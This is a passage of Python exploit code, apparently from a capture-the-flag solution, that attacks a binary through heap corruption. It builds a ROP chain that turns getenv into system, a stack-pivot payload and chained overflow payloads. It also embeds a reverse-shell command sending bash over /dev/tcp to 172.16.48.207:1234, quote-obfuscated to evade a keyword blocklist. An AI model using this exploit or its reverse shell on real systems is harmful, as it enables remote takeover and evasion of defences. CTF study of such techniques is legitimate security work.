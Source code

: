```python
 0x0000000000401063, # pop rdx ; pop rbx ; pop rbp ; ret
 0x0000000000406862 : pop rsi ; ret
 0x0000000000404cb7 : pop rdi ; ret
 0x00000000004165af : add rax, rsi ; ret
 0x0000000000450ab0 : mov rax, qword ptr [rdi + 0x28] ; ret
 '''
    ropchain = flat([
        0x0000000000450ab0, # mov rax, qword ptr [rdi + 0x28] ; ret
        0x0000000000406862, # pop rsi ; ret
        0xa0b0, # system - getenv
        0x00000000004165af, # add rax, rsi ; ret -> rax->system
        0x0000000000404cb7, # pop rdi ; ret
        0x6760c8, # cmd address
        0x0000000000408823, # add rsp, 0x328 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret -> sastisfy system
        b'x' * (0x328 + 6 * 8),
        0x000000000040853d, # call rax
    ])

    CMD = b"""bas'h' -i >& /dev/'t'cp/172.16.48.207/1234 0>&1;"""
    for k in [b'bash', b'flag', b'cat', b'tcp', b'"']:
        assert k not in CMD, "invalid sequence {} in CMD".format(k)

    # CMD = b"touch /tmp/test;"
    pivot_payload = flat({
        0x00: p64(0x4087F5), # .alloc -> disable je in .free gadget
        # .text:00000000004087F5 test    rsi, rsi
        # .text:00000000004087F8 jz      short loc_408801
        # .text:00000000004087F8
        # .text:00000000004087FA mov     rdi, [rbx+10h]
        # .text:00000000004087FE call    qword ptr [rbx+8]
        0x08: p64(0x00000000004381d3), # .free -> xchg eax, esp ; je 0x43901d ; add rsp, 0xe8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
        0x10: p64(0x675ec8 - 0x28), # getenv@got - 0x28
        0x18: CMD,
        0x118: ropchain
    })

    hijack_payload =  b'"ddddddddddddddddddddddddddddddddddddddd\u"   '
    hijack_payload += b'e' * 0x5c
    hijack_payload += pivot_payload
    hijack_payload += b'"'
    # hijack_payload += b','
    # print("hijack_payload len {:#x}, raw_len {:#x}".format(len(hijack_payload), raw_len(hijack_payload)))

    # print("message len {:#x}".format(template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)))

    array_payload = generate_array_payload(top_chunk_size - 0x1040 - 0x50 - 0x20, template_len + raw_len(overflow_old_top_chunk_payload) + raw_len(overflow_new_top_chunk_payload) + raw_len(free_new_top_chunk_payload) + raw_len(overflow_fastbin_fd_payload) + raw_len(dummy_alloc_payload) + raw_len(hijack_payload)) 

    payload =  array_payload
    payload += overflow_old_top_chunk_payload
    payload += overflow_new_top_chunk_payload
    payload += free_new_top_chunk_payload
    payload += overflow_fastbin_fd_payload
    payload += dummy_alloc_payload
    payload += hijack_payload

```